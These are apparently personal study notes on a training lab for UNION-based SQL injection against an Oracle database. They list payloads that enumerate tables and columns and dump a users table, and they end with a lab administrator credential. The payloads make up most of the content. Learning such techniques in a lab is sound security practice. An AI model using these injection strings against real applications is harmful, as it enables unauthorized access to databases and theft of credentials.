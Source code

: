 ```yaml
---
title: 'Lab 4 - Listing DB contents Oracle:'
updated: 2023-06-06T16:39:46.0000000+01:00
created: 2023-06-04T18:32:37.0000000+01:00
---
```


![image1](../../../../_resources/image1-15.png)
Same as lab 3 - but with Oracle database syntax:

***SELECT \* FROM all_tables***
***SELECT \* FROM all_tab_columns WHERE table_name = 'USERS'***

First lets perform a UNION attack to see all the table names:

'UNION+SELECT+table_name,NULL+FROM+all_tables--

This gives us a list of all table names.

'UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_BFPOND'--

This will show us the two columns inside of the USERS table:
![image2](../../../../_resources/image2-14.png)
Accessing the Columns:

Now we need to print what is inside the columns:

*'UNION+SELECT+USERNAME_ZCFLFV,PASSWORD_WUFDNK+FROM+USERS_BFPOND--*

![image3](../../../../_resources/image3-11.png)

Administrator:eef7iorfjr5ssslaptas
